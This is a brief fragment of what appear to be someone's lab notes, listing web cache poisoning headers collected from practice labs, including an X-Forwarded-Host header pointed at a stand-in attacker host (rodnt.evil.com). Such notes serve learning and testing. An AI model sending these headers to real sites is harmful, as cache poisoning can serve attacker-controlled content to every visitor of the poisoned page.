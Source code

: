 ----

- Here you can find some payloads collected from the labs



#### Web Cache Poisoning Headers


```
X-Forwarded-Host: rodnt.evil.com
X-Forwarded-Proto: http
X-Forwarded-Scheme: http
```